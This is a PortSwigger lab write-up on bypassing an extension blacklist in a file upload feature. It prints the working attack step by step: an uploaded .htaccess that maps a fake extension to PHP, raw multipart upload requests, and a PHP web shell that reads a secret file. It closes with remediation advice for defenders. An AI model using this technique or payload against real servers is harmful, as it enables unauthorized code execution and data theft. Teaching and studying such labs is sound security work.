



# Web shell upload via extension blacklist bypass

**Lab:** PortSwigger Web Security Academy — *Web shell upload via extension blacklist bypass* (Practitioner).

The upload feature blocks a list of known-dangerous extensions (`.php`, `.php5`, `.phtml`, …), but it accepts **any** filename that isn't on that list — including Apache's own per-directory configuration file, `.htaccess`. If the server honors an uploaded `.htaccess`, the blacklist can be rewritten from the inside.

## 1. Upload an `.htaccess` that teaches Apache a new PHP extension

`.htaccess` itself has no "dangerous" extension to blacklist, so it uploads cleanly. Its content tells Apache to execute files ending in a made-up extension (`.133t`) as PHP:

```apacheconf
AddType application/x-httpd-php .133t
```

Sent as the avatar upload:

```http
POST /my-account/avatar HTTP/2
Host: 0a7a003d03da45bd804c6278005d003c.web-security-academy.net
Content-Type: multipart/form-data; boundary=----geckoformboundary532cd07b57d94c16efe2603abe5b61b
Content-Length: 498

------geckoformboundary532cd07b57d94c16efe2603abe5b61b
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .133t
------geckoformboundary532cd07b57d94c16efe2603abe5b61b
Content-Disposition: form-data; name="user"

wiener
```

The server accepts it and confirms the save path:



## 2. Upload the web shell under the newly-allowed extension

The same PHP payload as the earlier labs, now saved with the `.133t` extension the `.htaccess` file just taught Apache to execute — which is not on the blacklist because it is not a real PHP extension:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

```http
POST /my-account/avatar HTTP/2
Host: 0a7a003d03da45bd804c6278005d003c.web-security-academy.net
Content-Type: multipart/form-data; boundary=----geckoformboundary4b36570b158cab21bd438f1fe8b6811f
Content-Length: 534

------geckoformboundary4b36570b158cab21bd438f1fe8b6811f
Content-Disposition: form-data; name="avatar"; filename="rev2.133t"
Content-Type: application/octet-stream

<?php echo file_get_contents('/home/carlos/secret'); ?>
```



## 3. Request the file and read the secret

```text
GET /files/avatars/rev2.133t HTTP/2
```

Apache, now configured by the uploaded `.htaccess` to treat `.133t` as PHP, executes the file and returns the contents of `/home/carlos/secret` in the response body.



## 4. Submit the secret

Paste the value into the lab's solution field.

## Why it works

Two gaps combine here: the blacklist enumerates specific dangerous extensions instead of allow-listing safe ones, so it has no opinion on `.htaccess`; and the server trusts uploaded directory-scoped configuration files, letting an attacker redefine what counts as an "executable" extension in the very directory the blacklist is supposed to protect. Once `.133t` is mapped to the PHP handler, the blacklist's list of blocked extensions is simply irrelevant.

## Remediation

- Reject uploads of server configuration files outright (`.htaccess`, `web.config`, and equivalents for your stack) regardless of blacklist/allowlist extension logic — these should never be accepted as user content in an upload directory.
- Disable `AllowOverride`/per-directory `.htaccess` processing for upload directories in the webserver configuration, so even if one is uploaded, it has no effect.
- Switch from a blacklist to an allowlist of permitted extensions, and validate actual file content in addition to the extension.
